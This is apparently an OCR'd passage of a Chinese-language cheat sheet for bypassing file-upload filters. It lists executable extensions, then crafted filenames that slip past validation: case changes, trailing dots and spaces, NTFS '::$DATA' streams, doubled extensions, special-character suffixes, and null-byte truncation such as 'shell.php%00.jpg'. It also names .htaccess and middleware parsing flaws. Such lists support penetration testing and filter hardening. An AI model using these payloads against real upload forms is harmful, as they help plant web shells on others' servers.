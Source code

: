         - jsp
        - jspa
        - jsps
        - jspx
        - jspf
    - php
        - php
        - php1
        - php2
        - php3
        - php4
        - php5
        - phtml
    - Misc
        - txt
        - svg
        - pdf
        - xml
        - xlsx
- 大小写(windows)
    - `xxx.pHp`、`xxx.Jsp`
- 空格绕过
    - `xxx .php`
    - `xxx.php `
- 点绕过
    - `xxx.php.`
- 换行
    - `xxx.txt%0aphp`
    - `xxx.ph\np`
- .空格. 绕过(windows)
    - `xxx.php .`
    - `xxx.php .jpg`
    - `xxx.php. .jpg`
- 特殊字符
    - `xxx.php::$DATA` (windows)
    - `xxx.php::$DATA......` (windows)
    - `xxx.php/`
    - `xxx.php?`
    - `xxx./php` (linux)
- 特殊字符+白后缀
    - `xxx.php.jpg`
    - `xxx.php_.jpg`
    - `xxx.php/1.jpg`
    - `xxx.php{}.jpg`
    - `xxx.php;jpg`
    - `xxx.php;.jpg`
    - `xxx.php;+x.jpg`
    - `xxx.php:1.jpg`
    - `xxx.php.123`
    - `xxx.jpg/.php`
    - `xxx.jpg/php`
    - `xxx.jpg/1.php`
    - `xxx.jpg{}.php`
- 双写绕过
    - `phpphp.php`
    - `php.php`
    - `xxx.pphphp`
    - `xxx.asaspxpx`
- 00 截断
    - `file.jpg%00shell.php`
    - `shell.php%00file.jpg`
    - `shell.php%00.jpg`
- .htaccess
- 中间件解析漏洞